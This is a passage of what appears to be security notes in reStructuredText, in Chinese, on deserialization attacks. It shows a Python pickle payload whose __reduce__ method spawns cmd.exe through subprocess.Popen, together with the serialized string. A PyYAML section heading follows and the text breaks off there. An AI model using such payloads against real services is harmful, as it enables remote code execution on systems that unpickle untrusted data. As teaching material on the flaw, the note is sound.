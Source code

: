 反序列化
--------------------------------

pickle
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    >>> class A(object):
    ...     a = 1
    ...     b = 2
    ...     def __reduce__(self):
    ...         return (subprocess.Popen, (('cmd.exe',),))
    ...
    >>> cPickle.dumps(A())
    "csubprocess\nPopen\np1\n((S'cmd.exe'\np2\ntp3\ntp4\nRp5\n."

PyYAML反序列化
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
